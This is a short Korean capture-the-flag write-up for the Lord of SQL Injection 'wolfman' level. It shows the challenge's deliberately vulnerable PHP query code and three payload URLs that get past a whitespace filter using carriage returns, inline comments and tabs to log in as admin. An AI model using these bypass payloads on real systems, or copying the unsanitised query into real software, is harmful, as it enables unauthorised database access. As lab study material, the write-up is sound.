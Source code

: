 # Lord of SQL Injection No.5 - wolfman
## 문제 출제 의도 
공백문자를 사용하지 않고 우회하여 원하는 데이터를 가져올 수 있는지를 확인한다.
## 소스 코드 분석
``` php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```
```php
if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
```
+ 이 부분을 보았을 때 띄어쓰기를 사용했을때 문제 풀이에 실패하는 것을 알 수 있다.
## Solution
1. Carrage Return 사용
~~~
http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw='%0Dor%0Did='admin'--%0D-
~~~
Carrage Return(0X0D)은 공백 처리되므로 문제가 풀린다.
2. 주석 사용
~~~
http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw='/**/or/**/id='admin'--/**/-
~~~
주석(/**/)은 공백 처리되므로 문제가 풀린다.
3. 탭 사용
~~~
http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw='%09or%09id='admin'--%09-
~~~
탭(0X09)은 공백 처리되므로 문제가 풀린다.